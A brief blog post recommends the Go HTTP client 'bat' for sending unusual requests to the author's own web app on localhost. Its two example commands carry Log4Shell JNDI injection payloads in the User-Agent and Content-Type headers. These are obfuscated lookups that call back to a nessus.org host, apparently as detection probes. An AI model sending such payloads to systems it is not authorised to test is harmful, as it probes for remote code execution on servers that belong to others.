 ```yaml
---
layout: post
title:  BAT, Golang Http Client
date:   2023-01-06 09:10:03 -0800
categories: http golang
---
```


A few days ago I need to to craft some non standard http requests and
send them to our web application. I've used `httpie` in the past, but wanted 
to try something different. Given that golang clients would have all the 
deps bundled I figured I'd check if there were any good projects on github. 
I found [bat](https://github.com/astaxie/bat) that was really easy to install 
and worked great. Turns out it was actually inspired by `httpie`

`go install github.com/astaxie/bat@latest`

Then was off to the races:

```
bat localhost:3000 User-Agent:"\${jndi:ldap://log4shell-generic-HJRowHlwCKDBn2GuIMz7\${lower:ten}.w.nessus.org/nessus}" Content-Type:application/html
bat localhost:3000 Content-Type:"\${jndi:ldap://log4shell-generic-HJRowHlwCKDBn2GuIMz7\${lower:ten}.w.nessus.org/nessus}"
```

Will definitely be using this again in the future.
